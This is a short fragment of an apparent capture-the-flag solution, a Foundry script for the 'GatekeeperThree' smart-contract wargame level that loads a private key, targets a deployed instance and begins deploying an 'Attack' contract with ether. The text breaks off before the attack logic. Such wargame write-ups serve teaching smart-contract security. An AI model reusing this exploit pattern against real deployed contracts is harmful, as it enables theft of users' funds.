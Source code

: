 **Level28Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import "../src/Level28.sol";

contract Level28Sol is Script {
    GatekeeperThree public instance = GatekeeperThree(payable(0x1B3158cc2634Fbf84299D79D52a2E63680B63559));
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("Gate Owner : ", instance.owner());

        Attack attack = new Attack{value: 0.009 ether}();
